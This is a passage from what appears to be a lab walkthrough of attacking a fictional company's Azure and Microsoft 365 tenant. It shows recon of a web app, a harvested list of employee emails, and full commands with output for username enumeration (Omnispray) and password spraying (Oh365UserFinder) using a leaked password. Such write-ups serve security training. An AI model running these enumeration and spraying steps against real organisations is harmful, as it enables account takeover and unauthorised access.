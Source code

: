 We see that there's a website in `azurewebsites.net`, which is default domain for Azure App Serivce web apps. Other well known domains can be viewed [here](https://learn.microsoft.com/en-us/azure/security/fundamentals/azure-domains).

![](azure-recon-to-foothold-and-profit-3.png)

The web app reveals useful information regarding employees, their roles, email formats.
```
yuki.tanaka@megabigtech.com
yamamoto.sota@megabigtech.com
takahashi.hina@megabigtech.com
kato.sara@megabigtech.com
```

Now we can use [Omnispray](https://github.com/0xZDH/Omnispray) to enumerate valid usernames. 
```
└─$ python3 omnispray.py --type enum -uf users.list --module o365_enum_office
/home/kali/tools/cloud/azure/Omnispray/core/utils.py:107: SyntaxWarning: invalid escape sequence '\.'
  return re.fullmatch('[^@]+@[^@]+\.[^@]+', user)

            *** Omnispray ***            

>---------------------------------------<

   > version        :  0.1.4
   > module         :  o365_enum_office
   > type           :  enum
   > userfile       :  users.list
   > count          :  1 passwords/spray
   > lockout        :  15.0 minutes
   > wait           :  5.0
   > timeout        :  25 seconds
   > pause          :  0.25 seconds
   > rate           :  10 threads
   > start          :  2025-08-24 18:20:45

>---------------------------------------<

/home/kali/tools/cloud/azure/Omnispray/omnispray.py:319: DeprecationWarning: There is no current event loop
  loop = asyncio.get_event_loop()
[2025-08-24 18:20:45,109] INFO : Generating prerequisite data via office.com...
[2025-08-24 18:20:48,206] INFO : Enumerating 4 users via 'o365_enum_office' module
[2025-08-24 18:20:49,279] INFO : [ + ] yuki.tanaka@megabigtech.com
<SNIP>
```

For credential stuffing attack we can use [MSOLSpray](https://github.com/dafthack/MSOLSpray), Omnispray, Oh365UserFinder, TeamFiltration tools. Pass the valid username in a text file and the password from Pastebin. 
```
└─$ python3 oh365userfinder.py --pwspray --elist ~/pwnedlabs/azure/users.list -p 'MegaDev79$'  

   ____  __   _____ _____ ______   __  __                  _______           __
  / __ \/ /_ |__  // ___// ____/  / / / /_______  _____   / ____(_)___  ____/ /__  _____
 / / / / __ \ /_ </ __ \/___ \   / / / / ___/ _ \/ ___/  / /_  / / __ \/ __  / _ \/ ___/
/ /_/ / / / /__/ / /_/ /___/ /  / /_/ (__  )  __/ /     / __/ / / / / / /_/ /  __/ /
\____/_/ /_/____/\____/_____/   \____/____/\___/_/     /_/   /_/_/ /_/\__,_/\___/_/

                                   Version 1.1.2
                               A project by The Mayor
                        Oh365UserFinder.py -h to get started

------------------------------------------------------------------------------------------

```